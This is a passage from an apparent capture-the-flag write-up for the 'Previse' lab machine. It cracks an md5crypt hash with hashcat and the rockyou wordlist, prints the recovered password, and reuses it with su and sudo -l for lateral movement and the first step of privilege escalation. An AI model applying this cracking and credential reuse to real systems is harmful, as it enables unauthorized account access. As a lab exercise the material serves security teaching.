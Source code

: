 At this point we got users and their passwords but they are hashed
Time to decrypt them with hashcat and rockyou (its always rockyou XD)
Took me alot of time to identify the hash type (google please)...seems like its md5 so the correct command is

`hashcat '$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.' /usr/share/wordlists/rockyou.txt -m 500`

which gives us (after some time)

```bash
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!

Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
Time.Started.....: Mon Nov 1 00:05:11 2021 (30 mins, 29 secs)
Time.Estimated...: Mon Nov 1 00:35:40 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 4084 H/s (6.64ms) @ Accel:16 Loops:1000 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 7413280/14344385 (51.68%)
Rejected.........: 0/7413280 (0.00%)
Restore.Point....: 7413248/14344385 (51.68%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1000
Candidates.#1....: ilovecody98 -> ilovecodee

Started: Mon Nov 1 00:03:43 2021
Stopped: Mon Nov 1 00:35:42 2021
```

So the credentials are:
`m4lwhere:ilovecody112235!`

Lateral movement

```bash
su m4lwhere
Password: ilovecody112235!

m4lwhere@previse:~$
```

USER FLAG IS OURS
`cat user.txt`

## Privilege Escalation

```bash
sudo -l
[sudo] password for m4lwhere: ilovecody112235!

User m4lwhere may run the following commands on previse:
(root) /opt/scripts/access_backup.sh
```
